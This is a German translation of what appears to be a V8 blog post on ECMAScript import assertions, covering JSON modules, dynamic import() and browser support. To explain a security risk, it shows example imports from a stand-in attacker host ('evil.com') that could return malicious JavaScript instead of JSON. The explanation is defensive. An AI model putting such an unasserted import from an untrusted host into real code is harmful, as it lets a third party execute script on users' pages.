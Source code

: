 ```yaml
---
title: "Importbedingungen"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), entschlossener Importeur von Importbedingungen"
avatars:
  - "dan-clark"
date: 2021-06-15
tags:
  - ECMAScript
description: "Importbedingungen ermöglichen es, dass Modulimportanweisungen zusätzliche Informationen neben dem Modulspezifizierer enthalten"
tweet: ""
---
```


Die neue Funktion [Importbedingungen](https://github.com/tc39/proposal-import-assertions) ermöglicht es, dass Modulimportanweisungen zusätzliche Informationen neben dem Modulspezifizierer enthalten. Eine erste Anwendung dieser Funktion besteht darin, JSON-Dokumente als [JSON-Module](https://github.com/tc39/proposal-json-modules) zu importieren:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Hintergrund: JSON-Module und MIME-Typ

Eine natürliche Frage wäre, warum ein JSON-Modul nicht einfach wie folgt importiert werden könnte:

```javascript
import json from './foo.json';
```

Die Webplattform überprüft den MIME-Typ einer Modulressource auf Gültigkeit, bevor sie ausgeführt wird, und theoretisch könnte dieser MIME-Typ auch verwendet werden, um zu bestimmen, ob die Ressource als JSON- oder als JavaScript-Modul behandelt werden soll.

Es gibt jedoch ein [Sicherheitsproblem](https://github.com/w3c/webcomponents/issues/839) beim Verlassen auf den MIME-Typ allein.

Module können plattformübergreifend importiert werden, und ein Entwickler könnte ein JSON-Modul von einer Drittanbieterquelle importieren. Sie könnten dies als grundsätzlich sicher betrachten, selbst von einem nicht vertrauenswürdigen Drittanbieter, solange das JSON ordnungsgemäß bereinigt wird, da der Import von JSON kein Skript ausführt.

Allerdings kann ein bösartiges Drittanbieterskript in diesem Szenario tatsächlich ausgeführt werden, da der Drittanbieterserver unerwartet mit einem JavaScript-MIME-Typ und einer schädlichen JavaScript-Nutzlast antworten könnte, wodurch im Domain-Bereich des Importeurs Code ausgeführt wird.

```javascript
// Führt JS aus, wenn evil.com mit einem
// JavaScript-MIME-Typ antwortet (z. B. `text/javascript`)!
import data from 'https://evil.com/data.json';
```

Dateiendungen können nicht verwendet werden, um die Bestimmung des Modultyps zu treffen, da sie [kein verlässlicher Indikator für den Inhaltstyp im Web sind](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Stattdessen verwenden wir Importbedingungen, um den erwarteten Modultyp anzugeben und diesen Privilegieneskalationsfehler zu verhindern.

Wenn ein Entwickler ein JSON-Modul importieren möchte, muss er eine Importbedingung verwenden, um anzugeben, dass es sich um JSON handelt. Der Import schlägt fehl, wenn der über das Netzwerk empfangene MIME-Typ nicht dem erwarteten Typ entspricht:

```javascript
// Schlägt fehl, wenn evil.com eine Antwort mit einem Nicht-JSON-MIME-Typ gibt.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## Dynamischer `import()`

Importbedingungen können auch an [dynamische `import()`](https://v8.dev/features/dynamic-import#dynamic) mit einem neuen zweiten Parameter übergeben werden:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

Der JSON-Inhalt ist der Standardexport des Moduls, daher wird er über die `default`-Eigenschaft des von `import()` zurückgegebenen Objekts referenziert.

## Fazit

Derzeit ist die einzige festgelegte Verwendung von Importbedingungen die Spezifikation des Modultyps. Die Funktion wurde jedoch so konzipiert, dass sie beliebige Schlüssel/Wert-Paare für Bedingungen zulässt, sodass zusätzliche Verwendungen in Zukunft hinzugefügt werden können, wenn es sich als nützlich erweist, Modulimporte auf andere Weise einzuschränken.

Währenddessen sind JSON-Module mit der neuen Syntax für Importbedingungen standardmäßig in Chromium 91 verfügbar. Auch [CSS-Modulscripte](https://chromestatus.com/feature/5948572598009856) sind bald verfügbar, die dieselbe Syntax für Modultyp-Bedingungen verwenden.

## Unterstützung für Importbedingungen

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="nein"
                 safari="nein"
                 nodejs="nein"
                 babel="ja https://github.com/babel/babel/pull/12139"></feature-support>
